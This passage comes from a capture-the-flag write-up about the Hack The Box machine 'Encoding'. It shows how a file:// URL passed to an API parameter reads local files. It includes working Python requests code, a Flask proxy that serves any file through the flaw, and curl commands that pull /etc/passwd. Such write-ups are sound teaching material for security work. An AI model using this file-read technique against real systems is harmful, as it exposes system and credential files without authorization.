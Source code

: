 Given that the site is parsing URLs, I’ll try the `file://`
[scheme](https://blog.hubspot.com/marketing/parts-url) to see if it can read
files from disk. It can!

    
    
    >>> json_data = {"action": "str2hex", "file_url": "file:///etc/hostname"}
    >>> resp = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)
    >>> resp.json()
    {'data': '656e636f64696e670a'}
    

That decodes to “encoding”, which makes sense as the hostname:

    
    
    >>> bytes.fromhex("656e636f64696e670a").decode()
    'encoding\n'
    

#### Make Proxy

I’m going to make a Flask proxy to make reading from the file system easy.
I’ll walk through that in [this
video](https://www.youtube.com/watch?v=f0m-3P7_bsU):

The final script is
[here](https://gitlab.com/0xdf/ctfscripts/-/blob/master/htb-
encoding/proxy.py):

    
    
    #!/usr/bin/env python3
    
    import requests
    from flask import Flask, Response
    
    
    app = Flask(__name__)
    
    @app.route('/<path:file>')
    def get_file(file):
    
        req_data = {"action": "str2hex", "file_url": f"file:///{file}"}
        resp = requests.post("http://api.haxtables.htb/v3/tools/string/index.php", json=req_data)
        return Response(bytes.fromhex(resp.json()['data']), content_type="application/octet-stream")
    
    
    if __name__ == "__main__":
        app.run(debug=True)
    

When I run it, it listens on port 5000 such that I can do things like this in
another terminal:

    
    
    oxdf@hacky$ curl http://127.0.0.1:5000/etc/hostname
    encoding
    oxdf@hacky$ curl http://127.0.0.1:5000/etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin          
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    ...[snip]...
    